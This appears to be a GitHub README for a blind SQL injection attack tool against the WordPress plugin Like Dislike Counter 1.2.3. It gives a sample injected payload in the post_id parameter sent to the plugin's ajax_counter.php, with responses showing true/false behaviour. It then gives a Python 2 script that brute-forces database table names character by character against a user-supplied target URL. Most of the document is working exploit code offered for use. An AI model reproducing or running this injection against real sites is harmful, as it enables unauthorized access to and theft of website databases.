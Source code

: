 # Like-Dislike-Counter-AttackTool about Database

### python 2.7.6  
### Module : requests  
### Target : Like Dislike Counter 1.2.3  
### Reference  
> [sqlinjection.net](http://www.sqlinjection.net/table-names/)  
> [Hyunmini tistory](http://hyunmini.tistory.com/59)  

##### Blind SQL Injection 반응검사  
<pre><code>  
>>> import requests
>>> url = "http://192.168.28.130/wp-content/plugins/like-dislike-counter-for-posts-pages-and-comments/ajax_counter.php"  
>>> payload1 = {'post_id' : '12 and substring((select table_name from information_schema.tables limit 0,1),1,1) = char(67)', 'up_type' : 'like'}  
>>> payload2 = {'post_id' : '12 and substring((select table_name from information_schema.tables limit 0,1),1,1) = char(68)', 'up_type' : 'like'}  
>>> r1 = requests.post(url, data=payload1)  
>>> r2 = requests.post(url, data=payload2)  
>>> r1.content  
'1'  
>>> r2.content  
'0'  
</code></pre>



###### It's a python
<pre><code>  
url = input("Input Target URL : ")

if(url.startswith('http://') != 1) :
        url = "http://" + url


tableName=['']*100

x = 0

for x in range(0,101):
        for y in range(1,11):
                for z in range(32,127):
                        brute_string = '12 and substring((select table_name from information_schema.tables limit '+str(x)+',1),'+str(y)+',1) = char('+str(z)+')'
                        payload = {'post_id' : brute_string, 'up_type' : 'like'}
                        r = requests.post(url, data = payload)
                        blindRes = int(r.content)

                        if blindRes :
                                tableName[x] = tableName[x]+chr(z)
                                break
        print tableName[x]

</code></pre>

